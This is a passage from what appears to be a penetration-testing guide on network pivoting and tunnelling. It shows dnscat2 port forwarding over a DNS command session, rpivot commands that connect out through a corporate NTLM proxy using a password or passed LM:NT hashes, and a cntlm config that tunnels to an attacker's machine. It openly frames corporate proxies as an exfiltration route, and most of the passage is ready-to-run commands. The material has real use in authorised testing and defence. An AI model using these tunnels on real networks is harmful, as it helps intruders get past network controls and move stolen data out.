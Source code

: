 To initiate port forwarding select a command session with `session -i <num>`:

    dnscat2> session -i 1
    New window created: 1
    New window created: 1
    history_size (session) => 1000
    This is a command session!

    That means you can enter a dnscat2 command such as
    'ping'! For a full list of clients, try 'help'.

    command session (debian) 1>

Use `listen [lhost:]lport rhost:rport` command to forward a port:

`command session (debian) 1> listen 127.0.0.1:8080 10.0.0.20:80`

This will bind port 8080 on the attacker’s machine and forward all connections to 10.0.0.20:80.

### Corporate HTTP proxy as a way out

HTTP proxies organization place for their employees to access external web-application present a good exfiltration opportunity given you got the right credentials ;)

#### Rpivot

I already mentioned this tool in the NAT traversal section. It also supports connecting to the outside world via NTLM HTTP proxies. Server side command remains intact, use client-side command as follows:

    python client.py --server-ip <rpivot_server_ip> --server-port 9999\
    --ntlm-proxy-ip <proxy_ip> --ntlm-proxy-port 8080 --domain CONTOSO.COM\
    --username Alice --password P@ssw0rd

Or if you have LM:NT hashes instead of password:

    python client.py --server-ip <rpivot_server_ip>\
    --server-port 9999 --ntlm-proxy-ip <proxy_ip> --ntlm-proxy-port 8080 --domain CONTOSO.COM\
    --username Alice --hashes 9b9850751be2515c8231e5189015bbe6:49ef7638d69a01f26d96ed673bf50c45

#### Cntlm

[Cntlm](http://cntlm.sourceforge.net/) is the tool of choice for running any non-proxy aware programs over NTLM-proxy. Basically this tool authenticates against a proxy and binds a port locally that is forwarded to the external service you specify. This port bound does not require any authentication so you can use your tools directly (putty/ssh for example). It uses a config file for its operation. Here’s a barebones config example to forward port 443 (this port is most likely to be allowed through the proxy):

    Username Alice
    Password P@ssw0rd
    Domain CONTOSO.COM
    Proxy 10.0.0.10:8080
    Tunnel 2222:<attackers_machine>:443

Run it:

`cntlm.exe -c config.conf`
